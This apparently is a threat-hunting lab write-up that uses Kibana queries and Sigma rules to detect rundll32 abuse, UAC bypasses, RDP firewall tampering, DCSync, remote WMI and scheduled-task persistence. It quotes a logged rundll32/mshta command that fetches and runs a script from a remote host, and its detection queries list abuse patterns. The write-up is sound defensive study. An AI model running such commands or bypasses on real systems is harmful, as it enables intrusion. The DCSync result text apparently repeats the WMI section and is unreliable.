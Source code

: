 ```yaml
---
title: Hunting With ELK 2
categories: [Writeup threat_hunting]
tags: [eLearn, threat_hunting, elk, kibana, siem]
---
```

# Scenario 
**Resolvn Threat Hunting Virtual Machine (RTHVM)**

The IT Security manager provided you with simulated malicious activity and has asked you to create hunting detection techniques for all of it.

## Task 1. Hunt for malicious use of rundll32
By employing the [Sigma](https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rundll32_activity.yml) win_susp_rundll32_activity.yml rules, we can effectively detect and identify processes associated with the malicious utilization of rundll32.

```
((process.args:("*javascript\:*" OR "*.RegisterXLL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURLA*")) OR ((process.args:"*url.dll*" AND process.args:"*FileProtocolHandler*")) OR ((process.args:"*zipfldr.dll*" AND process.args:"*RouteTheCall*")) OR ((process.args:"*shell32.dll*" AND process.args:"*Control_RunDLL*")) OR ((process.args:"*shell32.dll*" AND process.args:"*ShellExec_RunDLL*")) OR ((process.args:"*mshtml.dll*" AND process.args:"*PrintHTML*")) OR ((process.args:"*advpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*advpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieframe.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*shdocvw.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*syssetup.dll*" AND process.args:"*SetupInfObjectInstallAction'*")) OR ((process.args:"*setupapi.dll*" AND process.args:"*InstallHinfSection*")) OR ((process.args:"*pcwutl.dll*" AND process.args:"*LaunchApplication*")) OR ((process.args:"*dfshim.dll*" AND process.args:"*ShOpenVerbApplication*")))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2.jpg){: width="972" height="589" }

```
cmd.exe, /C, rundll32.exe, javascript:\..\mshtml,RunHTMLApplication ;document.write();h=new%%20ActiveXObject(WScript.Shell).run(mshta https://hotelesms.com/talsk.txt,0,true);
```

The query yielded 8 hits that involve the misuse of rundll32.exe. The initial instance shows the execution of code from the internet, where rundll32.exe is utilized to run a JavaScript script downloaded from a remote website  hotelsms[.]com/talsk[.]txt [ref](https://attack.mitre.org/techniques/T1218/011/)

## Task 2. Hunt for UAC Bypass leveraging cliconfg.exe
UAC bypass technique that leverages cliconfg.exe. We can utilize Sysmon event ID 7, focusing on the process executable for cliconfg.exe, and filter for the file path of the "NTWDBLIB.dll" dynamic-link library (DLL) file, commonly known as the "SQL Server Client Library." [ref](https://attack.mitre.org/techniques/T1548/002/)

```
event.id: 7 AND process.executable : cliconfg.exe AND file.path : *NTWDBLIB.dll*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-1.jpg){: width="972" height="589" }
  
We have successfully obtained one match based on our query, revealing the UAC bypass involving cliconfig.exe. Furthermore, by filtering the process ID of the event, which is 880, we gain insights into the specific tool employed by the threat actor.


![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-2.jpg){: width="972" height="589" }


Upon further examination, it becomes evident that the threat actor has employed a UAC bypass technique known as [WinPwnage](https://github.com/rootm0s/WinPwnage#uac-bypass-techniques),  with a flag option of -i 11 which relies on token manipulation. Token manipulation is a method utilized to modify user access tokens, which are security descriptors containing information about a user's privileges and group memberships.  [ref](https://attack.mitre.org/techniques/T1548/002/)


## Task 3. Hunt for RDP settings tampering
To initiate the hunt for RDP settings tampering, we can begin our query by filtering for the process executable "netsh.exe" Additionally, we should include an "add rule" for capturing specific event details that may be indicative of RDP settings manipulation.

```
(((process.executable:"*\\netsh.exe") OR (winlog.event_data.OriginalFileName:"netsh.exe")) AND (process.args:"*\ firewall\ *" AND process.args:"*\ add\ *"))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-3.jpg){: width="972" height="589" }
The query returned one hit, the threat actor used the "netsh" command to add a firewall rule named "Remote Desktop" with TCP port 3389 allowed for inbound traffic. This could potentially grant unauthorized access through RDP. [ref](https://attack.mitre.org/techniques/T1021/001/)

## Task 4. Hunt for DCSync
Hunting for DCSync, we can use this [Sigma rule]([https://github.com/Neo23x0/sigma/blob/master/rules/windows/builtin/win_dcsync.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/builtin/win_dcsync.yml)) The rule searches for event ID 4662, which is often related to permissions modifications in Active Directory. To eliminate common legitimate accounts, it excludes user names ending with "*" and specific built-in accounts such as "AUTHORITY" and "Window." The rule focuses on objects with properties matching the DCSync schema identifier (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2) or objects related to replication (object.properties:Replicating). 

```
event.id:4662 AND NOT (user.name:*$ OR user.name:AUTHORITY OR user.name:Window) AND (object.properties:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 OR object.properties:Replicating)
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-4.jpg){: width="972" height="589" }
With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. these process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://d3fend.mitre.org/offensive-technique/attack/T1003.006/)

## Task 5. Hunt for Remote WMI Usage
To hunt for the Remote WMI Usage technique, we can begin by focusing on event ID 4648 and filtering for the process parent name of "WMIC.exe." This combination can help us identify potential instances where WMI (Windows Management Instrumentation) is being used remotely.

```
event.id : 4648 and process.parent.name : *wmi*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-5.jpg){: width="972" height="589" }


With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. The three instances of the "WMIC.exe" process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://attack.mitre.org/techniques/T1047/)


## Task 6. Hunt for persistence through scheduled Tasks
To begin hunting for persistence through scheduled tasks, we will initiate our query by focusing on process name "schtasks" and Sysmon event ID 1, which indicates process creation. 
```
 process.name:schtasks AND event.id:1
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-6.jpg){: width="972" height="589" }
Based on the query, we obtained one hit that reveals the usage of the "schtasks" process to create a scheduled task. This scheduled task creation indicates a potential persistence mechanism used by threat actors to execute a suspicious file ("mshta.exe") from the system's "System32" directory with a command-line argument from an external URL ("hxxps[://]hotelesms[.]com/Injection[.]txt") every 6 minutes when a user logs on. [ref](https://attack.mitre.org/techniques/T1218/005/ )

## Task 7. Hunt for UAC Bypass leveraging SDCLT.EXE
The SDCLT UAC bypass takes advantage of the fact that SDCLT.exe is a trusted Microsoft application that is not subject to UAC prompts. Attackers can leverage this behavior to execute arbitrary code with elevated privileges, potentially allowing them to perform unauthorized actions on the system, compromise its security, and gain persistence.
To hunt for UAC bypass leveraging SDCLT.exe, we can start by focusing on the process with the executable name "sdclt.exe" and filtering for arguments containing "kickoffelev". 

```
process.executable : sdclt.exe AND process.args : *kickoffelev*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-7.jpg){: width="972" height="589" }

The presence of one hit indicates the usage of "sdclt.exe" with the argument "kickoffelev." The argument "kickoffelev" is associated with a specific UAC bypass technique known as the "[SDCLT UAC bypass.](https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/)" [ref](https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/)

## Reference 
- <https://github.com/RESOLVN/RTHVM> 
- <https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rundll32_activity.yml>
- <https://attack.mitre.org/techniques/T1218/011/>
- <https://attack.mitre.org/techniques/T1548/002/>
- <https://github.com/rootm0s/WinPwnage#uac-bypass-techniques>
- <https://attack.mitre.org/techniques/T1021/001/>
- <https://github.com/Neo23x0/sigma/blob/master/rules/windows/builtin/win_dcsync.yml>
- <https://d3fend.mitre.org/offensive-technique/attack/T1003.006/>
- <https://attack.mitre.org/techniques/T1047/>
- <https://attack.mitre.org/techniques/T1218/005/>
- <https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/>
- <https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/> 